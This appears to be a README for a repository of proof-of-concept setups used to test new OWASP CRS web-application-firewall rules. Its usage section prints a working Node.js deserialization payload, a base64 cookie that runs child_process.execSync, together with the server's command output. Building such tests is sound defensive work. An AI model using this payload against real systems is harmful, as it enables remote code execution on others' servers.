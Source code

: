 *draft*

# OWASP CRS PoC
set of scripts and dockerfile that could help in creating vulnerability PoC in order to test new OWASP CRS rules.

[![asciicast](https://asciinema.org/a/qb1fM2Q3JrWp5mga8xntLb4R3.svg)](https://asciinema.org/a/qb1fM2Q3JrWp5mga8xntLb4R3)

## Usage
just cd on a PoC dir and run `start.sh` with the CRS pull request id you want to test

```bash
$ cd nodejs-rce-pr-1487/
$ bash start.sh -p 1487
[*] Build and run all containers
Creating network "nodejsrcepr1487_app_net" with driver "bridge"
Creating modsec-crs ... 
Creating vuln-nodejs-app ... 
Creating vuln-nodejs-app
Creating vuln-nodejs-app ... done
Waiting for crs...
.
[*] CRS Ready.
[*] Pull all changes from OWASP CRS remote repository
remote: Enumerating objects: 837, done
...
```

now you can run `exploit.sh`
```bash
$ bash exploit/exploit.sh
* Rebuilt URL to: http://localhost:3000/
*   Trying 127.0.0.1...
* Connected to localhost (127.0.0.1) port 3000 (#0)
> GET / HTTP/1.1
> Host: localhost:3000
> User-Agent: curl/7.47.0
> Accept: */*
> Cookie: profile=eyJ1c2VybmFtZSI6Il8kJE5EX0ZVTkMkJF9mdW5jdGlvbiAoKXsgcmV0dXJuIHJlcXVpcmUoJ2NoaWxkX3Byb2Nlc3MnKS5leGVjU3luYygnbHMnLCAoZSxvdXQsZXJyKSA9PiB7IHJldHVybiBvdXQ7IH0pOyB9KCkifQo=;
> 
< HTTP/1.1 200 OK
< X-Powered-By: Express
< Content-Type: text/html; charset=utf-8
< Content-Length: 104
< ETag: W/"68-ka7ksPS6+rCrIedwIIZyHPo7ROc"
< Date: Wed, 07 Aug 2019 11:38:43 GMT
< Connection: keep-alive
< 
Hello bin
boot
dev
etc
home
lib
lib64
media
mnt
node_modules
opt
proc
root
run
sbin
srv
sys
tmp
usr
var
* Connection #0 to host localhost left intact
```

all audit logs will be stored in:
- Concurrent JSON file in  `logs/audit`
- ModSecurity Audit log in `logs/modsec_audit.log`
- ModSecurity Debug log in `logs/modsec_debug.log`

you can quickly view all relevant logs by running:
`python3 logs/viewlog.py`


